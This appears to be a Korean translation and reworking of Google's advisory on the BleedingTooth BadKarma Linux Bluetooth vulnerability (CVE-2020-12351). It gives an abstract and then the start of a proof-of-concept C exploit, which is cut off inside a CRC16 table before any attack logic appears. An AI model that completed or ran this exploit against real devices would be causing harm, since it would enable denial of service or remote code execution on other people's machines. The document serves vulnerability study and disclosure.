 # BleedingTooth - BadKarma
본 문서는 구글 보안팀의 [BadKarma 공식 문서](https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq)를 번역하며 재구성한 글입니다.


## Abstract
```
CVE: CVE-2020-12351
Severity: High
Platform: Linux Kernel >= 4.8
Attack Type: Heap-Based Type Confusion
```
본 글에서 다룰 취약점은 BleedingTooth 취약점 중 BadKarma 공격에 대한 내용으로 `CVE-2020-12351`번을 부여받은 취약점이다. 리눅스 커널 4.8 버전 이상에서 적용되며, [dbb50887c8f61 커밋](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/bluetooth/l2cap_core.c?id=dbb50887c8f619fc5c3489783ebc3122bc134a31)에서 발생했다. 취약점이 발생한 위치는 `net/bluetooth/l2cap_core.c` 파일이다.

공격자는 피해자의 bd 주소만 알고 있어도 단거리에서 조작된 l2cap 패킷을 보내 DoS 공격을 유발하거나 RCE가 가능하다.

## Proof Of Concept
### poc.c
```c++
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define AMP_MGR_CID 0x03

static uint16_t crc16_tab[256] = {
  0x0000, 0xc0c1, 0xc181, 0x0140, 0xc301, 0x03c0, 0x0280, 0xc241,
  0xc601, 0x06c0, 0x0780, 0xc741, 0x0500, 0xc5c1, 0xc481, 0x0440,
  0xcc01, 0x0cc0, 0x0d80, 0xcd41, 0x0f00, 0xcfc1, 0xce81, 0x0e40,
  0x0a00, 0xcac1, 0xcb81, 0x0b40, 0xc901, 0x09c0, 0x0880, 0xc841,
  0xd801, 0x18c0, 0x1980, 0xd941, 0x1b00, 0xdbc1, 0xda81, 0x1a40,
  0x1e00, 0xdec1, 0xdf81, 0x1f40, 0xdd01, 0x1dc0, 0x1c80, 0xdc41,
  0x1400, 0xd4c1, 0xd581, 0x1540, 0xd701, 0x17c0, 0x1680, 0xd641,
  0xd201, 0x12c0, 0x1380, 0xd341, 0x1100, 0xd1c1, 0xd081, 0x1040,
  0xf001, 0x30c0, 0x3180, 0xf141, 0x3300, 0xf3c1, 0xf281, 0x3240,
  0x3600, 0xf6c1, 0xf781, 0x3740, 0xf501, 0x35c0, 0x3480, 0xf441,
  0x3c00, 0xfcc1, 0xfd81, 0x3d40, 0xff01, 0x3fc0, 0x3e80, 0xfe41,
  0xfa01, 0x3ac0, 0x3b80, 0xfb41, 0x3900, 0xf9c1, 0xf881, 0x3840,
  0x2800, 0xe8c1, 0xe981, 0x2940, 0xeb01, 0x2bc0, 0x2a80, 0xea41,
  0xee01, 0x2ec0, 0x2f80, 0xef41, 0x2d00, 0xedc1, 0xec81, 0x2c40,
  0xe401, 0x24c0, 0x2580, 0xe541, 0x2700, 0xe7c1, 0xe681, 0x2640,
  0x2200, 0xe2c1, 0xe381, 0x2340, 0xe101, 0x21c0, 0x2080, 0xe041,
  0xa001, 0x60c0, 0x6180, 0xa141, 0x6300, 0xa3c1, 0xa281, 0x6240,
  0x6600, 0xa6c1, 0xa781, 0x6740, 0xa501, 0x65c0, 0x6480, 0xa441,
  0x6c00, 0xacc1, 0xad81, 0x6d40, 0xaf01, 0x6fc0, 0x6e80, 0xae41,
  0xaa01, 0x6ac0, 0x6b80, 0xab41, 0x6900, 0xa9c1, 0xa881, 0x6840,
  0x7800, 0xb8c1, 0xb981, 0x7940, 0xbb01, 0x7bc0, 0x7a80, 0xba41,
  0xbe01, 0x7ec0, 0x7f80, 0xbf41, 0x7d00, 0xbdc1, 0xbc81, 0x7c40,
  0xb401, 0x74c0, 0x7580, 0xb541, 0x7700, 0xb7c1, 0xb681, 0x7640,
  0x7200, 0xb2c1, 0xb381, 0x7340, 0xb101, 0x71c0, 0x7080, 0xb041,
  0x5000, 0x90c1, 0x9181, 0x5140, 0x9301, 0x53c0, 0x5280, 0x9241,
  0x9601, 0x56c0, 0x5780, 0x9741, 0x5500, 0x95c1, 0x9481, 0x5440,
  0x9c01, 0x5cc0, 0x5d80, 0x9d41, 0x5f00, 0x9fc1, 0x9e81, 0x5e40,
```